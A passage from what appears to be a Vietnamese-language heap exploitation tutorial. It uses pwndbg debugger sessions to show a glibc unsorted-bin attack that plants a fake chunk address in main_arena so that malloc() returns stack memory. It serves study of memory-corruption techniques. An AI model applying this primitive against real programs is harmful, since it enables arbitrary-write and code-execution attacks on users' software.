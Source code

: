 -	Lưu địa chỉ của fake chunk (0x7fffffffde18) vào main_arena.bins[0]->bk(0x602018).
	-	vì điều này, data lưu ở main_arena.bins[0]->bk trở thành địa chỉ của fake chunk (0x7fffffffde18).

>Store the address of the fake chunk in the main_rena.bins[ 0 ]->bk.
```nasm
pwndbg> c
Continuing.

Breakpoint 2, 0x000000000040073a in main ()
pwndbg> x/i $rip
=> 0x40073a <main+148>:	mov    QWORD PTR [rdx],rax
pwndbg> i r rdx rax
rdx            0x602018	6299672
rax            0x7fffffffde18	140737488346648
pwndbg> x/4gx 0x7fffffffde18
0x7fffffffde18:	0x0000000000000000	0x0000000000000090
0x7fffffffde28:	0x0000000000000000	0x00007fffffffde20
pwndbg> p &main_arena.bins[0]->bk
$6 = (struct malloc_chunk **) 0x602018
pwndbg> ni

0x000000000040073d in main ()
pwndbg> p main_arena.bins[0]->bk
$7 = (struct malloc_chunk *) 0x7fffffffde18
pwndbg> x/4gx 0x602000
0x602000:	0x0000000000000000	0x0000000000000091
0x602010:	0x00007ffff7dd1b78	0x00007fffffffde18
pwndbg>
```

-	Khi yêu cầu malloc() để cấp phát 1 vùng nhớ 130bytes, allocator reallocate chunks được đặt trong unsorted bin
	-	Allocator loại bỏ chunk từ unsorted bin sau khi reallocate, và update list của unsorted bin.
	-	Điều này dẫn đến địa chỉ của fake chunk lưu vào main_arena.bins[1].
-	Và 1 lần nữa, nếu yêu cầu cấp phát bộ nhớ có cùng kích thước stack (0x7fffffffde18) được trả về.
	-	Địa chỉ đó là địa chỉ của fake chunk -> fd.

>Memory is allocated in the stack space.
```nasm
pwndbg> c
Continuing.

Breakpoint 3, 0x0000000000400747 in main ()
pwndbg> i r rax
rax            0x602010	6299664
pwndbg> p main_arena.bins[0]
$9 = (mchunkptr) 0x602000
pwndbg> p main_arena.bins[1]
$10 = (mchunkptr) 0x7fffffffde18
pwndbg> c
Continuing.

Breakpoint 4, 0x0000000000400755 in main ()
pwndbg> i r rax
rax            0x7fffffffde28	140737488346664
pwndbg> x/4gx 0x7fffffffde28
0x7fffffffde28:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x7fffffffde38:	0x4830ac2c0abceb00	0x0000000000400790
pwndbg> p main_arena.bins[1]
$11 = (mchunkptr) 0x7fffffffde20
pwndbg> 
```
